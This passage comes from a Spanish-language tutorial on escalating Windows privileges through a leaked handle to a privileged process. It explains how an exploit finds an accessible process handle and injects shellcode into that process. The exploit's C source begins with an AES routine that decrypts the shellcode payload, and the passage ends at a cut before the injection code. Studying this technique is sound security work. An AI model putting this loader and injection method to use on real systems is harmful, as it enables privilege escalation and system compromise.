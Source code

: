 ```c

	return 0;
}
```
### Ejemplo de explotación 1

{% hint style="info" %}
En un escenario real, probablemente **no podrás controlar el binario** que será ejecutado por el código vulnerable (_C:\users\username\desktop\client.exe_ en este caso). Probablemente **comprometerás un proceso y tendrás que buscar si puedes acceder a algún handle vulnerable de algún proceso privilegiado**.
{% endhint %}

En este ejemplo se encuentra el código de una posible explotación para _C:\users\username\desktop\client.exe_.\
La parte más interesante de este código se encuentra en `GetVulnProcHandle`. Esta función **comenzará a buscar todos los handles**, luego **comprobará si alguno de ellos pertenece al mismo PID** y si el handle pertenece a un **proceso**. Si se cumplen todos estos requisitos (se encuentra un handle de proceso abierto accesible), intentará **inyectar y ejecutar un shellcode abusando del handle del proceso**.\
La inyección del shellcode se realiza dentro de la función **`Inject`** y simplemente **escribirá el shellcode dentro del proceso privilegiado y creará un hilo dentro del mismo proceso** para ejecutar el shellcode.
```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <wincrypt.h>
#include <psapi.h>
#include <tchar.h>
#include <tlhelp32.h>
#include "client.h"
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")
#pragma comment (lib, "kernel32")


int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
        HCRYPTPROV hProv;
        HCRYPTHASH hHash;
        HCRYPTKEY hKey;

        if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
                return -1;
        }
        if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
                return -1;
        }
        if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
                return -1;              
        }
        if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
                return -1;
        }
        
        if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, payload, &payload_len)){
                return -1;
        }
        
        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
```
